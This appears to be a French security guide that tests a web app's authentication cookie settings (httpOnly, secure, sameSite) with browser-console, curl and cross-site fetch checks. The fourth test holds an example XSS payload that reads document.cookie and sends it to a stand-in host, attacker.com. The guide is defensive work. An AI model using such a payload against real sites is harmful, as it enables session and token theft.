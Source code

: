 
## 🧪 Tests de Sécurité

### Test 1: Vérifier httpOnly

```javascript
// Dans la console du navigateur
console.log(document.cookie);
// ✅ Le access_token ne devrait PAS apparaître
```

### Test 2: Vérifier secure (HTTPS)

```bash
# Essayer sur HTTP (devrait échouer)
curl http://localhost:3000/auth/check \
  --cookie "access_token=fake" \
  -v

# Sur HTTPS (devrait fonctionner)
curl https://localhost/auth/check \
  -c cookies.txt
```

### Test 3: Vérifier sameSite (CSRF)

```html
<!-- Sur un autre site, essayer de faire une requête -->
<script>
fetch('https://votre-app.com/auth/check', {
  credentials: 'include'
});
// ✅ Devrait être bloqué par sameSite: strict
</script>
```

### Test 4: Tentative d'attaque XSS

```javascript
// Injecter du JavaScript malveillant
<script>
  // Essayer de voler le token
  const token = document.cookie;
  fetch('https://attacker.com?stolen=' + token);
</script>
// ✅ Le token n'est PAS dans document.cookie (httpOnly)
```

---

## 🔐 Bonnes Pratiques Appliquées

### ✅ Principe du Moindre Privilège
- Cookies : SEULEMENT ce qui est nécessaire (JWT)
- Données : Récupérées à la demande depuis l'API
